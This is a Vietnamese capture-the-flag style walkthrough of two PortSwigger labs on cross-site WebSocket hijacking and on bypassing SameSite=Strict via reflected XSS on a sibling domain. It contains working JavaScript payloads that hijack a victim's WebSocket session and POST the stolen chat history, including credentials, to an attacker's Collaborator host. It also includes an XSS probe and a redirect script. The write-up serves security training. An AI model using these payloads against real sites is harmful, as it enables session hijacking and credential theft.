 🧪 **Lab: Cross-site WebSocket Hijacking (PortSwigger)**

🔗 **Lab URL: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab**

🧠 **Phân tích kỹ thuật đề bài**
Ứng dụng là một cửa hàng trực tuyến có tích hợp tính năng live chat sử dụng WebSocket để truyền và nhận tin nhắn theo thời gian thực.

✅ **Điểm yếu bảo mật:**

WebSocket không yêu cầu CSRF token khi handshake.

Cookie phiên của người dùng vẫn được gửi trong quá trình WebSocket handshake từ bất kỳ origin nào.

Cho phép kẻ tấn công tạo một script độc hại khiến trình duyệt của nạn nhân tự động kết nối lại WebSocket bằng session hợp lệ của họ.

🧩 **Mục tiêu**

Sử dụng tính năng Exploit Server để gửi một trang HTML chứa script khai thác đến nạn nhân, đánh cắp lịch sử chat của họ. Trong đó có chứa username và password, từ đó đăng nhập và hoàn thành lab.

🔍 **Bước 1: Quan sát hoạt động của WebSocket**

Truy cập lab, nhấn vào "Live chat".

Gửi một tin nhắn bất kỳ.

Reload lại trang.

Mở Burp Suite → Proxy → WebSockets history:

Quan sát thấy client gửi chuỗi "READY" → server phản hồi bằng toàn bộ lịch sử tin nhắn.

Đây là chuỗi quan trọng mà attacker cần gửi để server gửi lịch sử về.

![image](https://github.com/user-attachments/assets/437785b0-5ee3-458e-bb29-22600978b071)

Mở Burp → Proxy → HTTP history:

Tìm yêu cầu handshake WebSocket (thường là GET /chat với Upgrade: websocket).

Kiểm tra và xác nhận: không có CSRF token trong header.

![image](https://github.com/user-attachments/assets/34d82764-0e63-4957-bb6c-d0cf4d3121c8)

💥 **Bước 2: Khai thác bằng JavaScript**

Truy cập Exploit Server, dán đoạn script sau vào phần Body của payload:

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator-id>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
🔧 Lưu ý:

Thay <your-lab-id> bằng lab ID của bạn (copy từ yêu cầu handshake WebSocket).

Thay <your-collaborator-id> bằng Burp Collaborator payload.

🔁 **Quy trình khai thác**

Nạn nhân truy cập trang exploit.

Script chạy trên trình duyệt của nạn nhân.

Trình duyệt tự động mở WebSocket đến /chat với cookie hợp lệ.

Gửi "READY" → nhận toàn bộ lịch sử chat.

Từng tin nhắn được gửi về máy chủ attacker (qua Burp Collaborator).

Attacker thu được thông tin đăng nhập trong nội dung chat.

![image](https://github.com/user-attachments/assets/f2ac2644-962b-47b0-9372-d0ee47e0545f)

🧩 **Bước 3: Đăng nhập và hoàn thành Lab**

Mở Burp → Collaborator tab → Poll now.

Kiểm tra các request chứa lịch sử chat → tìm username và password.

Dùng thông tin đó để đăng nhập và hoàn thành lab.

✅ **Kết luận**

Lỗi WebSocket hijacking xảy ra khi:

WebSocket không kiểm tra Origin hoặc CSRF token.

Trình duyệt gửi cookie tự động trong kết nối WebSocket → cho phép trang bên ngoài "hijack" session hiện tại.

🧪 **Lab: SameSite Strict bypass via sibling domain**
🔗 **Lab URL: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain**
🧠 **Mục tiêu**

Khai thác lỗ hổng Cross-site WebSocket Hijacking (CSWSH) và vượt qua cơ chế bảo vệ SameSite=Strict bằng cách sử dụng XSS từ domain anh em (cms-...) để đánh cắp lịch sử chat chứa thông tin đăng nhập nạn nhân.

🕵️‍♂️ **Phân tích kỹ thuật**

Ứng dụng có tính năng chat sử dụng WebSocket (/chat).

WebSocket không có CSRF token trong handshake → có thể bị chiếm quyền nếu vượt qua được SameSite cookie.

Cookie của ứng dụng được gán SameSite=Strict → chặn truy cập từ cross-site.

Tuy nhiên, domain cms-... là sibling domain trong cùng một "site" → không bị SameSite chặn.

cms-... chứa lỗ hổng reflected XSS trong form /login.
🧰 **Bước 1: Xác định XSS ở sibling domain**

Trong Burp Proxy, gửi yêu cầu đến một file JS/image → thấy header:
![image](https://github.com/user-attachments/assets/07117940-cc20-44b2-954c-202ec73e0861)
Truy cập domain đó → thấy form đăng nhập.

Gửi payload:

<script>alert(1)</script>

![image](https://github.com/user-attachments/assets/3c8f6d59-8f72-4270-a4b5-c6836b91dfad)

 => xác nhận có reflected XSS.

 Copy URL chứa payload XSS để sử dụng cho tấn công CSWSH(cross site websocket hijacking).

📡 **Bước 2: Viết script tấn công WebSocket**

<script>
    
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
    
</script>

URL-encode toàn bộ script trên → dán vào URL cms-.../login?username=....

Tạo script chuyển hướng người dùng sang URL XSS:

<script>
    
    document.location = "https://cms-<lab-id>.web-security-academy.net/login?username=<payload-encoded>&password=anything";
    
</script>

![image](https://github.com/user-attachments/assets/22dcb625-d9e4-491d-be1e-8ff3a50f943f)

🎯 **MỤC ĐÍCH:**

Khởi tạo kết nối WebSocket từ trình duyệt nạn nhân đến server chat, sử dụng session cookie của nạn nhân.

Gửi lệnh "READY" đến server, khiến nó phản hồi toàn bộ lịch sử chat (chứa tên đăng nhập và mật khẩu).

Gửi dữ liệu lịch sử chat đó ra ngoài, về máy chủ của kẻ tấn công (thông qua Burp Collaborator).

Do SameSite=Strict ngăn chặn gửi cookie khi truy cập từ một site khác, nên:

XSS trên sibling domain (cms-...) được dùng để thực thi JavaScript trong cùng "site" → cookie được gửi đúng cách → bypass thành công SameSite Strict.

✅ **Kết quả:**

Khi người dùng (nạn nhân) truy cập URL chứa XSS trong username, trình duyệt của họ:

Chạy script tấn công WebSocket (gửi "READY" → nhận chat history).

Do chạy từ cùng site, cookie được gửi theo.

Chat history chứa username/password → được gửi về attacker.
